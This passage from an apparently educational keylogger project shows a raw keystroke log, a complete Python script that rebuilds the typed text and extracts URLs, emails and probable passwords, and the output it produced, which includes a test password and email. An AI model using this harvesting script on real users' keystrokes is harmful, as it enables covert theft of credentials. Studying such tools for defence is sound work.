    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:40 2024 - Key.space
    Fri Dec 13 16:35:40 2024 - k
    Fri Dec 13 16:35:40 2024 - e
    Fri Dec 13 16:35:41 2024 - y
    Fri Dec 13 16:35:41 2024 - l
    Fri Dec 13 16:35:41 2024 - o
    Fri Dec 13 16:35:42 2024 - g
    Fri Dec 13 16:35:43 2024 - g
    Fri Dec 13 16:35:43 2024 - e
    Fri Dec 13 16:35:44 2024 - Key.backspace
    Fri Dec 13 16:35:44 2024 - Key.backspace
    Fri Dec 13 16:35:44 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:46 2024 - a
    Fri Dec 13 16:35:46 2024 - c
    Fri Dec 13 16:35:46 2024 - c
    Fri Dec 13 16:35:46 2024 - o
    Fri Dec 13 16:35:47 2024 - u
    Fri Dec 13 16:35:47 2024 - n
    Fri Dec 13 16:35:47 2024 - t
    Fri Dec 13 16:35:48 2024 - h
    Fri Dec 13 16:35:48 2024 - e
    Fri Dec 13 16:35:48 2024 - l
    Fri Dec 13 16:35:49 2024 - p
    Fri Dec 13 16:35:49 2024 - .
    Fri Dec 13 16:35:50 2024 - e
    Fri Dec 13 16:35:50 2024 - d
    Fri Dec 13 16:35:50 2024 - u
    Fri Dec 13 16:35:53 2024 - Key.space
    Fri Dec 13 16:35:54 2024 - o
    Fri Dec 13 16:35:54 2024 - n
    Fri Dec 13 16:35:54 2024 - Key.space
    Fri Dec 13 16:35:54 2024 - w
    Fri Dec 13 16:35:54 2024 - h
    Fri Dec 13 16:35:54 2024 - a
    Fri Dec 13 16:35:55 2024 - t
    Fri Dec 13 16:35:55 2024 - Key.space
    Fri Dec 13 16:35:55 2024 - t
    Fri Dec 13 16:35:55 2024 - o
    Fri Dec 13 16:35:56 2024 - Key.space
    Fri Dec 13 16:35:56 2024 - d
    Fri Dec 13 16:35:56 2024 - o
    Fri Dec 13 16:35:56 2024 - Key.space
    Fri Dec 13 16:35:57 2024 - a
    Fri Dec 13 16:35:57 2024 - n
    Fri Dec 13 16:35:57 2024 - d
    Fri Dec 13 16:35:58 2024 - Key.space
    Fri Dec 13 16:35:58 2024 - h
    Fri Dec 13 16:35:58 2024 - o
    Fri Dec 13 16:35:58 2024 - w
    Fri Dec 13 16:35:58 2024 - Key.space
    Fri Dec 13 16:35:58 2024 - t
    Fri Dec 13 16:35:58 2024 - o
    Fri Dec 13 16:35:59 2024 - Key.space
    Fri Dec 13 16:36:00 2024 - k
    Fri Dec 13 16:36:00 2024 - e
    Fri Dec 13 16:36:00 2024 - e
    Fri Dec 13 16:36:00 2024 - p
    Fri Dec 13 16:36:00 2024 - Key.space
    Fri Dec 13 16:36:00 2024 - m
    Fri Dec 13 16:36:00 2024 - y
    Fri Dec 13 16:36:01 2024 - s
    Fri Dec 13 16:36:01 2024 - e
    Fri Dec 13 16:36:01 2024 - l
    Fri Dec 13 16:36:01 2024 - f
    Fri Dec 13 16:36:01 2024 - Key.space
    Fri Dec 13 16:36:01 2024 - s
    Fri Dec 13 16:36:02 2024 - a
    Fri Dec 13 16:36:02 2024 - d
    Fri Dec 13 16:36:03 2024 - Key.backspace
    Fri Dec 13 16:36:03 2024 - f
    Fri Dec 13 16:36:03 2024 - e
    Fri Dec 13 16:36:04 2024 - .
    Fri Dec 13 16:36:04 2024 - Key.backspace
    Fri Dec 13 16:36:05 2024 - Key.space
    Fri Dec 13 16:36:05 2024 - f
    Fri Dec 13 16:36:05 2024 - r
    Fri Dec 13 16:36:05 2024 - o
    Fri Dec 13 16:36:05 2024 - m
    Fri Dec 13 16:36:05 2024 - Key.space
    Fri Dec 13 16:36:06 2024 - a
    Fri Dec 13 16:36:06 2024 - Key.space
    Fri Dec 13 16:36:07 2024 - k
    Fri Dec 13 16:36:07 2024 - e
    Fri Dec 13 16:36:07 2024 - y
    Fri Dec 13 16:36:07 2024 - l
    Fri Dec 13 16:36:07 2024 - o
    Fri Dec 13 16:36:08 2024 - g
    Fri Dec 13 16:36:08 2024 - g
    Fri Dec 13 16:36:08 2024 - e
    Fri Dec 13 16:36:08 2024 - r
    Fri Dec 13 16:36:08 2024 - .
    Fri Dec 13 16:36:09 2024 - Key.space
    Fri Dec 13 16:36:09 2024 - Key.shift_r
    Fri Dec 13 16:36:10 2024 - O
    Fri Dec 13 16:36:10 2024 - r
    Fri Dec 13 16:36:10 2024 - Key.space
    Fri Dec 13 16:36:10 2024 - i
    Fri Dec 13 16:36:10 2024 - Key.space
    Fri Dec 13 16:36:11 2024 - c
    Fri Dec 13 16:36:11 2024 - a
    Fri Dec 13 16:36:11 2024 - n
    Fri Dec 13 16:36:11 2024 - Key.space
    Fri Dec 13 16:36:12 2024 - j
    Fri Dec 13 16:36:12 2024 - u
    Fri Dec 13 16:36:12 2024 - s
    Fri Dec 13 16:36:12 2024 - t
    Fri Dec 13 16:36:12 2024 - Key.space
    Fri Dec 13 16:36:14 2024 - h
    Fri Dec 13 16:36:14 2024 - i
    Fri Dec 13 16:36:14 2024 - t
    Fri Dec 13 16:36:14 2024 - Key.space
    Fri Dec 13 16:36:15 2024 - t
    Fri Dec 13 16:36:15 2024 - h
    Fri Dec 13 16:36:15 2024 - e
    Fri Dec 13 16:36:15 2024 - Key.space
    Fri Dec 13 16:36:15 2024 - e
    Fri Dec 13 16:36:15 2024 - s
    Fri Dec 13 16:36:16 2024 - c
    Fri Dec 13 16:36:16 2024 - Key.space
    Fri Dec 13 16:36:16 2024 - k
    Fri Dec 13 16:36:16 2024 - e
    Fri Dec 13 16:36:17 2024 - y
    Fri Dec 13 16:36:17 2024 - Key.space
    Fri Dec 13 16:36:17 2024 - t
    Fri Dec 13 16:36:17 2024 - o
    Fri Dec 13 16:36:18 2024 - Key.space
    Fri Dec 13 16:36:18 2024 - s
    Fri Dec 13 16:36:18 2024 - t
    Fri Dec 13 16:36:18 2024 - o
    Fri Dec 13 16:36:18 2024 - p
    Fri Dec 13 16:36:19 2024 - Key.space
    Fri Dec 13 16:36:19 2024 - t
    Fri Dec 13 16:36:19 2024 - h
    Fri Dec 13 16:36:19 2024 - i
    Fri Dec 13 16:36:19 2024 - s
    Fri Dec 13 16:36:19 2024 - Key.space
    Fri Dec 13 16:36:20 2024 - k
    Fri Dec 13 16:36:20 2024 - e
    Fri Dec 13 16:36:20 2024 - y
    Fri Dec 13 16:36:20 2024 - l
    Fri Dec 13 16:36:20 2024 - o
    Fri Dec 13 16:36:21 2024 - g
    Fri Dec 13 16:36:21 2024 - g
    Fri Dec 13 16:36:21 2024 - e
    Fri Dec 13 16:36:21 2024 - r
    Fri Dec 13 16:36:22 2024 - Key.esc
</details>

---

Once the keylogging phase is complete, the log analysis script processes the data to extract meaningful insights.
First, the script reads the raw log file and removes timestamps and unnecessary formatting, leaving only the recorded keystrokes. 
It then reconstructs the keystrokes into coherent text by handling spaces, backspaces, and other formatting nuances. From the reconstructed text, 
the script identifies patterns useful for analysis, such as the most common words, URLs, emails, and potential passwords, which are detected using regular expressions
to match specific patterns. The results are then output to a new file, extracted_words.txt, which provides a detailed summary of the reconstructed text, the most frequently
used word, any identified URLs, emails, and passwords. This project highlights how keyloggers can be used to gain intelligence and emphasizes the importance of understanding
these tools from a cybersecurity perspective to recognize potential threats and defend against them.

Below is the next script in python that analyzes the raw data to extract valuable information:
```
import re
from collections import Counter

# Function to read the raw log file
def read_log_file(file_path):
    with open(file_path, "r") as file:
        return file.readlines()


# Function to remove timestamps and clean up lines
def clean_log_lines(log_lines):
    cleaned_lines = []
    
    first_line = log_lines[0].strip()  

    for line in log_lines[1:]:
        # Remove timestamp pattern 
        cleaned_line = re.sub(r".*?-", "", line).strip() 
        cleaned_lines.append(cleaned_line)
    
    return cleaned_lines, first_line


# Function to reconstruct the keystrokes into words
def reconstruct_text(cleaned_lines):
    text = ""
    for line in cleaned_lines:
        if line.startswith("Key.space"):
            text += " "
        elif line.startswith("Key.backspace"):
            text = text[:-1]
        elif line.startswith("Key.") or line == "Key.enter":  # Skip special keys
            continue
        else:
            text += line  # Add the valid keypresses (letters,numbers,punctuation)
    return text


# Function to extract words from the reconstructed text - also making sure URLs and emails stay constructed
def extract_words_and_urls(text):
    valid_domains = ['com', 'org', 'net', 'gov', 'edu', 'io', 'co', 'me', 'us']
    
    # Email pattern with regex: [words]@[words].[words]
    email_pattern = r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}\b'
    emails = re.findall(email_pattern, text)
    
    # Modify the regex to match words, punctuation, and URLs
    words_and_urls = []
    words = re.findall(r"\b\w+\b|[.,!?;()/@&*^%#$~=+]", text)

    # Combine URLs as well as domains
    i = 0
    while i < len(words):
        if i + 2 < len(words) and words[i].isalpha() and words[i + 1] == "." and words[i + 2] in valid_domains:
            # This is a domain, treat it as a URL
            words_and_urls.append(words[i] + "." + words[i + 2])
            i += 3  

        elif i + 2 < len(words) and words[i].isalpha() and words[i + 1] == "@" and words[i + 2].isalpha():
            # This is an email, treat it as such
            words_and_urls.append(words[i] + "@" + words[i + 2])
            i += 3  
            
        else:
            words_and_urls.append(words[i])
            i += 1


    if i == len(words) - 1:  
        words_and_urls.append(words[i])

    return words_and_urls, emails


def get_only_words(text):
    # Extract words consisting of letters, digits, or underscores
    STOP_WORDS = {"a", "an", "and", "the", "is", "are", "of", "to", "in", "on", "for", "it", "with", "at", "by", "this"}
    words_only = re.findall(r'\b\w+\b', text)
    filtered_words = [word for word in words_only if word.lower() not in STOP_WORDS]
    return filtered_words

# Function to detect the most common word with it's count
def detect_most_common_word(words):
    
    word_counts = Counter(words)
    most_common_word, count = word_counts.most_common(1)[0]  
    return most_common_word, count


# Function to detect URLs
def detect_urls(words):
    # URL pattern without the '@' symbol, allowing for domains like example.com
    url_pattern = re.compile(r'\b(?:[a-zA-Z0-9-]+\.)+(?:com|org|net|gov|edu|io|co|me|us)\b')

    urls = []
    for word in words:
        # Exclude words containing '@' to prevent emails from being detected as URLs
        if '@' not in word and url_pattern.match(word):
            urls.append(word)
    
    return urls


# Function to detect passwords (odd letters combined with numbers and special characters)
def detect_passwords(text):
    password_pattern = r"\b[A-Za-z0-9!@#$%^&*()_+={}\[\]:;'\"<>,.?/\\|-]*\d+[A-Za-z0-9!@#$%^&*()_+={}\[\]:;'\"<>,.?/\\|-]+\b"
    passwords = [word for word in text.split() if re.match(password_pattern, word)]
    return passwords


# Function to output the extracted words to a file
def output_to_file(words, first_line, output_file, most_common_word, count, urls, passwords, emails):
    with open(output_file, "w") as file:
        # Write the first line (timestamp)
        file.write(first_line + "\n\n")
        
        # Write the reconstructed words at the top
        file.write(" ".join(words) + "\n")
        file.write("---------------------------------------------------------------\n\n")
        
        # Most common word
        file.write(f"Most common word: '{most_common_word}' (appears {count} times)\n")
        file.write("---------------------------------------------------------------\n\n")        
        # URLs section
        if urls:
            file.write(f"URLs Found: {urls}\n")
        else:
            file.write("No URLs Found.\n")
        file.write("---------------------------------------------------------------\n\n")        
        # Passwords section
        if passwords:
            file.write(f"Potential Passwords found: {passwords}\n")
        else:
            file.write("No Passwords detected.\n")
        file.write("---------------------------------------------------------------\n\n")        
        # Emails section
        if emails:
            file.write(f"Emails Found: {emails}\n")
        else:
            file.write("No Emails Found.\n")
        file.write("---------------------------------------------------------------\n\n")




def main():
    input_file = "raw_log.txt"  
    output_file = "extracted_words.txt"  

    log_lines = read_log_file(input_file)
    
    cleaned_lines, first_line = clean_log_lines(log_lines)

    reconstructed_text = reconstruct_text(cleaned_lines)

    passwords = detect_passwords(reconstructed_text)

    all_words,emails = extract_words_and_urls(reconstructed_text)

    cleaned_words = get_only_words(reconstructed_text)

    most_common_word, count = detect_most_common_word(cleaned_words)

    urls = detect_urls(all_words)

    output_to_file(all_words, first_line, output_file, most_common_word, count, urls, passwords, emails)
    print(f"Words have been output to {output_file}")

if __name__ == "__main__":
    main()
```

---

Here is then the final output of the extracted information from the previous script:

```
Keylogger started at: Fri Dec 13 16:32:25 2024

This is a keylogger test , this is all being logged from a keylogger . This keylogger will pick up every key stroke . That is scary ! Then it will be analyzed . Hopefully I don t go to a website like TryHackMe.com and type in my credentials . Which being keylogged@example . com and my password being P @ $ $ W0rd ! 99 for the website . That keylogger will log that in and might find a tutorial for a tryhackme room on youtube.com with my account ! Might have to email tryhackme@support . com or go to accounthelp.edu on what to do and how to keep myself safe from a keylogger . Or i can just hit the esc key to stop this keylogger
---------------------------------------------------------------

Most common word: 'keylogger' (appears 6 times)
---------------------------------------------------------------

URLs Found: ['TryHackMe.com', 'youtube.com', 'accounthelp.edu']
---------------------------------------------------------------

Potential Passwords found: ['P@$$W0rd!99']
---------------------------------------------------------------

Emails Found: ['keylogged@example.com', 'tryhackme@support.com']
---------------------------------------------------------------
```
